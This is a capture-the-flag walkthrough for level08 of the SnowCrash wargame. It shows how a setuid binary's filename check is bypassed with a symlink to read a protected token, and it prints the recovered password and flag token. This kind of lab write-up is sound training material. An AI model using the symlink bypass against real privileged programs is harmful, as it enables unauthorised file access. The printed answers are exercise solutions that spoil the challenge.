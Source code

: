 # level08

Using `ls`, we can discover new binary and file.

```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

Let's try to get more information about our couple of files.

```bash
level08@SnowCrash:~$ readelf -p .rodata ./level08

String dump of section '.rodata':
  [     8]  %s [file to read]^J
  [    1b]  token
  [    21]  You may not access '%s'^J
  [    3a]  Unable to open %s
  [    4c]  Unable to read fd %d

level08@SnowCrash:~$ cat token 
cat: token: Permission denied
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

Ok, we can see that we have a potential attack vector on the file to read. Let's get more informations about the call stack before using gbd.

```bash
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6f4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                             = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)         = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$ 
```

Ok, so we cannot access the program is the file having `token` as filename.

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
ln: failed to create symbolic link `/tmp/flag': File exists
level08@SnowCrash:~$ rm /tmp/flag
rm: remove write-protected regular file `/tmp/flag'? y
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
level08@SnowCrash:~$ ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
```

Perfect, let's head to level09.

```bash
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$ su level09
Password: 25749xKZ8L7DkSCwJkT9dyv6f
level09@SnowCrash:~$
```
